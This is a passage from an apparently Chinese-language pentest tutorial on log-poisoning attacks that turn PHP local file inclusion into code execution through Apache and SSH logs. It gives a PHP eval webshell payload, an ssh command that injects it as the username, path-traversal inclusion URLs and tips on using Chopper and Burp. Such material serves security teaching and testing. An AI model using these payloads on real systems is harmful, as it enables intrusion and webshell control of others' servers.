 ##### 说明：
当我们没有上传点，并且也没有`url_allow_include`功能时，我们就可以考虑包含服务器的日志文件

Web服务器的访问日志文件，这是一种通用的技巧。因为几乎所有网站都会将用户的访问记录到访问日志中。因此，攻击者可以向Web日志中插入PHP代码，通过文件包含漏洞来执行包含在Web日志中的PHP代码。

需要注意的是，如果网站访问量大的话，日志文件可能会非常大，这时如果包含一个这么大的文件时，PHP进程可能会卡死。一般网站通常会每天生成一个新的日志文件，因此在凌晨时进行攻击相对来说容易成功。

##### 利用条件：
需要知道服务器日志的存储路径，且日志文件可读。

##### 姿势：
`apache`在**用户发起请求时**，会将请求写入`access.log`，当**发生错误时**将错误写入`error.log`。攻击者使用Apache日志文件包含时，**首先要确定Apache的日志路径**，默认情况下，日志保存路径在 `/var/log/apache/access.l`。

1. 访问链接:`http://www.test.com/<;?php eval(POST_['test']) ?>`
2. 使用菜刀连接 `http://www.test.com/index.php?file=/var/log/apache/access.log`
3. 由于access的日志文件比较大，所以webshell可能会很慢甚至卡死,所以用`bp`代理截包,将包的`UA`设置为`" "`,使得payload进入错入日志`var/log/apache/error.log`
4. 这时候用菜刀连接`http://www.test.com/index.php?file=../../../../../../../../../var/log/apache/error.log`,因为通常它比`acess.log`体积小点,所以webshell没有那么卡!!~
> tips:但如果是直接发起请求，会导致**一些符号(如：<,>,空格)被编码使得包含无法正确解析。可以使用`bp`代理截包后,在bp上修改,然后再发出去**。

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.xtpwhfb5j0b_1536892658)

如下图可以看到,正常的php代码已经写入了 `/var/log/apache2/access.log`。然后进行包含即可。

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.imxn9l6ybw_1536892664)

在一些场景中，log的地址是被修改掉的。你可以通过读取相应的配置文件后，再进行包含。

#### SSH log

##### 利用条件：
1. 如果服务器开启了`ssh`,且我们使用的是默认ssh端口`22`,或者我们知道服务器使用什么端口
2. 需要知道`ssh-log`的位置，且可读。默认情况下为 `/var/log/auth.log`

##### 姿势：
用`ssh`或`putty`连接,`<?php eval(POST_['test']) ?>`作为`用户名`：

```
ssh '<?php eval(POST_['test']) ?>'@remotehost
```

之后会提示输入密码等等，随便输入,这时肯定会登录失败,**用户名**(`<?php eval(POST_['test']) ?>`)会被记录在ssh的失败登入日志`ssh-log`上。即在`remotehost`的`ssh-log`中即可写入**php代码**：

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.glirmkmnxh_1536892672)

之后进行文件包含即可(菜刀连接)。
参考:[RCE with LFI and SSH Log Poisoning](http://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/)

### 包含environ环境变量

#### 利用条件：
1. php以`cgi`方式运行，这样environ才会保持UA头。
2. environ文件存储位置已知，且environ文件可读。
